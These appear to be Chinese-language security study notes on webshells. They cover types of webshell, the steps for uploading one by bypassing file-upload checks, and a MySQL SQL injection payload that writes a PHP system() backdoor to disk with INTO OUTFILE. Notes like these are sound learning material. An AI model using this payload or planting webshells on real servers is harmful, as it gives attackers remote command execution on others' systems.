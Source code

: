 ## Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。
   
2. 小馬  
程式小巧   

3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  

### How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找 上傳點   

2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過client端  
* 繞過server端文件類型限制  
* 繞過mime類型  
* 繞過文件類型檢測  
* 過濾不全   

3. 尋找上傳路徑  

4. webshell 作用   


### SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

### Ref  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
